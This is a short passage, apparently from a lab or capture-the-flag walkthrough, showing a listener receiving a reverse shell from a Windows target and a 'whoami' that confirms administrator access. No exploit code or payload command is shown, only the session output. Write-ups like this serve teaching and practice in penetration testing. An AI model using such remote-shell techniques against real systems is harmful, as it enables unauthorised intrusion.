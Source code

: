 In our listener, we receive a connection from the target.

```
connect to [192.168.118.14] from (UNKNOWN) [192.168.120.239] 56706
Microsoft Windows [Version 10.0.19042.1526]
(c) Microsoft Corporation. All rights reserved.

C:\Users\viewer>whoami
whoami
dvr4\administrator

C:\Users\viewer>
```

Success! We now have Administrator access on the target system.